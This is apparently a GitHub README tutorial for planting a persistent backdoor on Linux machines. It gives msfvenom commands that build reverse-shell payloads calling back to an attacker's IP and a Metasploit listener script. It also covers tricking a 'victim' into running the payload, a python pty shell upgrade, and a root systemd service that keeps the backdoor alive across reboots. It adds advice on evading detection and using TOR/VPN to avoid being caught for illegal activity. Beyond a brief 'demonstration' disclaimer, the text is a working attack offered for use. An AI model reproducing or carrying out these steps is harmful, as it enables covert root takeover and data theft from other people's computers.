 # Backdoor to any Linux machine

**Myth:** It is said that Linux is secure and hasn't any viruses etc. Let's take a look. There is a general claim that no need for Antivirus software is required either. Well...

We won't create a true virus here. Just a backdoor. However, it opens up many possibilities for further hostile actions against Linux victim machines, including polluting the target Linux machine with multiple nasty viruses.

This is just a short technical demonstration without any true hostile attempts. Utilizing the method requires social engineering tactics, as well.

This method does not require any server software running on the victim's Linux machine. Just a simple client machine is OK.

**This tutorial assumes you will gain access to `sudo` or `root` terminal on victim's Linux machine by using social engineering tactics.**

--------------------

## How-to

**1) Generating backdoor.** Generate a simple Linux backdoor payload. On attacker machine, execute either:

A) Linux x86 binary backdoor payload:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<my_global_ip> lport=<my_global_port> -f elf -a x86 > ~/reverse_backdoor'
```

B) or alternatively generate a shell script backdoor payload:

```
msfvenom -p cmd/unix/reverse_bash LHOST=<my_global_ip> LPORT=<my_global_port> -f raw > reverse_backdoor_bash.sh
```

--------------------

**2) Router settings.** If you are behind a router, do PAT (Port Address Translation) where incoming connections to your router are coming from `<my_global_port>`. Let the router forward those to `<my_local_port>` in your local network.

**3) Metasploit listener script.** On your attack machine, add following file (edit contents as needed) and save it as 'backdoor-listener.rc'

```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <my_local_ip>
set lport <my_local_port>
exploit
```

This is a metasploit script file we will utilize later. Please pay attention to `<my_local_ip>` and `<my_local_port>` values above.

---------------------------

<my_global_ip>   = IPv4 which is reachable from outside (WAN IPv4), usually provided by your ISP
<my_global_port> = Port number which is accessible from outside (WAN) networks
<my_local_ip>    = IPv4 used by your attack machine on the local network, usually static one or provided by a router
<my_local_port>  = Port number which is accessible on your local network

---------------------------

**4) Start Metasploit listener.** Run the above Metasploit script file with `sudo msfconsole -r backdoor-listener.rc` and keep the listener open on your Linux attack machine.

**5) Victim enticement - execution of the backdoor.** Send msfvenom-generated `reverse_backdoor` binary executable to the Linux victim and encourage him/her to execute it. Requires social engineering tactics.

**6) Who am i and which is my shell?** Once you have connection to the victim's Linux machine, run `whoami`, after which run `shell`. Both in meterpreter console view.

**7) Open Python-based Bash pseudo-shell.** We assume that the victim has python environment. On the opened empty shell view, just run the following commands (we assume the current user's shell is `/bin/bash`):

```
which python
python -c "import pty; pty.spawn('/bin/bash');"
```

On that code above, we check python binary existence on the Linux victim machine. If OK, then you can open bash with pseudo terminal python function.

**8) Prepare your foothold on victim's machine - persistence.** On victim's machine, copy 'reverse_backdoor' binary into `/usr/local/bin/` folder, and run

```
chmod +x /usr/local/bin/reverse_backdoor
```

**9) Add new auto-starting systemd service** Now, insert a new systemd service file 'reverse-backdoor.service' into `/usr/lib/systemd/system/` as follows:

echo -e "[Unit]\nDescription=SSH backdoor\nAfter=network.target network-online.target\n\n[Service]\nType=oneshot\nRemainAfterExit=yes\n\nExecStart=/usr/local/bin/reverse_backdoor\nExecStop=/usr/local/bin/reverse_backdoor\n\n[Install]\nWantedBy=multi-user.target" > /usr/lib/systemd/system/reverse-backdoor.service

**10) Enable the systemd service.** Run

```
sudo systemctl enable reverse-backdoor.service
```

**11) Test the systemd service.** To check if the service file succeeds, check the output of:

```
sudo systemctl start reverse-backdoor.service
```

**12) You are able to connect after victim's reboot.** If Ok, you should be able to login to the victim's Linux machine after rebooting it. Just make sure you have Metasploit TCP Handler/Backdoor listener on stand-by on your Linux attack machine.

-----------------------------------------

**Contents of /usr/lib/systemd/system/reverse-backdoor.service**

The following systemd service file contents is supposed to be added to `/usr/lib/systemd/system/reverse-backdoor.service` on victim's Linux machine.

```
[Unit]
Description=Backdoor
After=network.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/home/penguin/reverse_backdoor
ExecStop=/home/penguin/reverse_backdoor

[Install]
WantedBy=multi-user.target
```
-----------------------------------------

**Systemd vs. init**

Of course, you can adapt this systemd service file as `init` script as well. However, majority of Linux distributions come with systemd nowadays, except for Gentoo etc.

**Testing scope**

The instructions have been tested and they work as expected. You gain root access on the victim's Linux machine, no matter which network the victim has connected to. You don't need to care about passwords either since the backdoor is executed as root during system boot-up. Actually, you can change the password and do what the hell you want on the victim's Linux machine. According to my remote tester (who was behind NAT), the opened hostile bash shell process is not visible on graphical system monitor view (this applies to XFCE, at least).

Victim can still detect the hostile shell process, other processes and opened network sockets with `netstat/sockstat` commands. However, distinguishing them from friendly processes is another thing...

-----------------------------------------

Simple attack schema:

```
<victim's Linux machine>  <--->  <ISP, etc.>  <--->  <your router>  <--->  <your attack Linux machine>

 <payload executable>                                                        <backdoor listener>
                  |->>       <my_global_ip>  <------------->  <my_local_ip>   <<-|
                  |->>     <my_global_port>  <------------->  <my_local_port> <<-|

    <execute file>      <--------------------------------------------->   <access victim's machine>
                            <<- valuable data, malicious commands ->>
```

In hardened scenarios, using TOR/VPN is recommended to avoid getting caught if illegal activies are performed.

-----------------------------------------
